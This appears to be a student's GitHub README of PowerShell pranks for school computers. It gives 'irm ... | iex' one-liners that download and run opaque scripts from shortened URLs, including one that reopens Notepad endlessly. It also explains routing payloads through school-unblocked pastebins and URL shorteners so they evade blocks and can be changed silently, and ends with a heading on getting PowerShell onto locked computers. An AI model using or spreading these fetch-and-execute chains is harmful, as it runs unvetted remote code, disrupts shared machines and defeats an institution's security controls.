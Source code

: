 # WELCOME
This is the collection of the school activities, shenanigans, etc.

:

- [powershell](#powershell)
    - [the scripts](#scripting)
    - [how its made](#creation)
    - [getting powershell](#access)

--- 

## PowerShell

### scripting

#### open notepad, forever... 

##### (BE CAREFUL, I AM NOT RESPONSIBLE FOR ANY DAMAGES)

``` irm "http://tiny.cc/alwaysnotepad" | iex ``` [file](/note.ps1)

#### print the entire bee movie script in the shell (I was hella bored)

``` irm "http://tiny.cc/beepowershell" | iex ``` not documented,

### creation

1. make file and upload to github
    - any file type works but i usually have it in ps1 for ease of testing amd readability
2. go to any paste bin service unblocked by your school and make a link to the raw
    - I'm not sharing mine as it will get blocked
    - in this file make a script that executes the script on github
    - the script goes like ``` irm "website url" | iex ```
      -   irm - invoke rest method - gets the script from provided source
      -   | - pipe - it sends the output of whats before to whats after
      -   iex - invoke execution - executes the script
3. now put this new link in a url shortener to make it easy to execute and name it something memorable
4. execute - just run ``` irm "your short url" | iex ``` , you could have used the github link but this you can remember
5. with the file on github you can modify any time, because most url shorteners block github, pastebins are key.


### access

#### How to get powershell on our locked computers...
---
